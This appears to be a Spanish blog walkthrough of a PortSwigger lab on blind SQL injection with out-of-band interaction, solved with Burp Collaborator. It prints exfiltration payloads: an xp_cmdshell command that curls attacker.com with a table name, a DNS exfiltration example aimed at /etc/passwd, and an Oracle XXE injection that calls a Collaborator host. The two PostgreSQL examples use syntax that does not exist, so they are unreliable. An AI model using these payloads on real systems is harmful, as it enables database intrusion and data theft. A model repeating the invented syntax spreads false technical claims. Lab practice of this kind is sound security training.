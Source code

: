 ```yaml
---
title: "15 Blind SQL injection with out-of-band interaction"
collection: publications
category: portswigger
permalink: publications/SQLi/15_Blind SQL injection with out-of-band interaction
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL para provocar una búsqueda DNS a Burp Collaborator.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with out-of-band interaction'
---
```


# Explicación de este tipo de ataque

Blind SQL Injection con Interacción Out-of-Band (OOB) es una técnica avanzada de inyección SQL que permite exfiltrar datos de una base de datos a través de canales secundarios, en lugar de depender de la respuesta directa de la aplicación web. Esta técnica se utiliza cuando:

* La respuesta de la aplicación no refleja directamente los resultados de la consulta SQL.
* No se pueden usar demoras basadas en tiempo (time-based blind SQLi).

En estos casos, puedes enviar cargas útiles que generen solicitudes hacia servicios externos (como un servidor controlado por el atacante) para confirmar que la inyección SQL ha sido exitosa o para extraer información.

# ¿Cómo funciona?

En lugar de buscar una respuesta directa o medir tiempos de demora, se aprovechan funciones que permiten realizar interacciones de red o de sistema operativo desde la base de datos hacia un recurso externo. Estas interacciones pueden incluir:

* Realizar una solicitud HTTP/DNS hacia un servidor externo controlado por el atacante.
* Usar comandos del sistema operativo (si la base de datos permite su ejecución) para interactuar con servicios externos.

# Casos comunes de interacción Out-of-Band

## 1. Exfiltración DNS
Se utilizan funciones de la base de datos para realizar una consulta DNS hacia un servidor controlado por el atacante. El nombre de dominio puede codificar datos exfiltrados, como nombres de tablas, columnas o datos específicos.

Ejemplo en PostgreSQL:

```sql
' || (SELECT extract(dns FROM pg_read_file('/etc/passwd') INTO '[your-server].attacker.com'))--
```

En este caso:

* La carga útil fuerza a la base de datos a realizar una consulta DNS hacia un servidor del atacante `(your-server.attacker.com)`.
* El atacante puede capturar esta interacción en su servidor DNS y decodificar los datos exfiltrados.

## 2. Uso de solicitudes HTTP

Algunas bases de datos permiten realizar solicitudes HTTP. Estas solicitudes se pueden usar para enviar datos al atacante.

Ejemplo en Microsoft SQL Server `(usando xp_cmdshell)`:

```sql
'; exec xp_cmdshell 'curl http://attacker.com?data=(SELECT TOP 1 name FROM sysobjects WHERE xtype=''U'')'; --
```

En este caso:

* Se usa `xp_cmdshell` para ejecutar un comando del sistema operativo.
* `curl` realiza una solicitud HTTP hacia el servidor del atacante con el primer nombre de tabla.

## Registros DNS o HTTP dinámicos

En algunos casos, los datos pueden ser exfiltrados directamente como parte del nombre del dominio o parámetros HTTP. Por ejemplo:

Si intentas extraer el nombre de una tabla llamada `users`:

```sql
' || (SELECT pg_sleep(0) WHERE table_name='users' INTO '[users.attacker.com]')--
```

# Beneficios de la interacción Out-of-Band
* No requiere respuesta directa: Es útil cuando las respuestas de la aplicación no reflejan los resultados de la consulta SQL.
* Bypass de restricciones: Puede eludir restricciones en la aplicación o WAFs que bloqueen consultas SQL convencionales.
* Exfiltración indirecta: Permite extraer datos incluso si no se muestran directamente en la aplicación.

# Limitaciones
* Requiere acceso a funciones específicas: Como consultas DNS, HTTP o comandos del sistema operativo, que pueden estar deshabilitadas por configuraciones de seguridad.
* Visibilidad: Las interacciones de red hacia dominios externos pueden ser detectadas por sistemas de monitoreo (IDS/IPS).

![logo]({{site.url}}/images/SQLi/sqli-15/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-15/descripcion.png)

## Objetivo del laboratorio

Explotar una vulnerabilidad SQLi y provocar una busqueda DNS.

## Abrir el Burp Collaborator client

Abrimos el `collaborator` de Burp Suite y presionamos en `Copy to clipboard` nos copiara un dato y lo guardamos. Es un `servidor` donde llegaran las consultas.

`c2fsi8n5y9x07iboz6x97z124takybm0.oastify.com`

![Collaborator]({{site.url}}/images/SQLi/sqli-15/collaborator.png)

## Cheat Sheet

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![Cheat]({{site.url}}/images/SQLi/sqli-15/cheat.png)

Vamos a probar cada uno de los Payloads que nos proporciona la pagina a ver con que motor esta corriendo.

```sql
'|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://SERVIDOR-COLLABORATOR/"> %remote;]>'),'/l') FROM dual)--
```

![Payload]({{site.url}}/images/SQLi/sqli-15/payload.png)

Y revisamos la pestaña de `Collaborator` y presionamos `Poll now` para recibir las peticiones. Y vemos que hemos recibido el datos de la consulta.

![Poll]({{site.url}}/images/SQLi/sqli-15/poll.png)

# Aprobado

![Aprobado]({{site.url}}/images/SQLi/sqli-15/aprobado.png)

